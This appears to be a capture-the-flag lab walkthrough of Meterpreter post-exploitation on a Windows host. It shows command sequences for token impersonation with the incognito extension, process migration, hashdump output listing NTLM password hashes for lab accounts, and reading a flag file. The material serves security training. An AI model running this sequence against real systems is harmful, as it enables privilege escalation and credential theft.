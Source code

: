 [FUN WITH INCOGNITO](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)


```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token "ATTACKDEFENSE\Administrator"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user ATTACKDEFENSE\Administrator
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator

```

```
meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User                         Path
 ---   ----  ----                     ----  -------  ----                         ----
1620  1492  RpPlgwAtivPKMDS.exe            1
3580  3444  explorer.exe             x64   1        ATTACKDEFENSE\Administrator  C:\Windows\explorer.exe

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: Access is denied.
```

```
meterpreter > migrate 3580
[*] Migrating from 1620 to 3580...
[*] Migration completed successfully.
```

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
meterpreter > cd c:\\
meterpreter > cd Users 
meterpreter > cd Administrator 
meterpreter > cat "C:\Users\Administrator\Desktop\flag.txt"
x28c832a39730b7d46d6c38f1ea18e12meterpreter > 
```
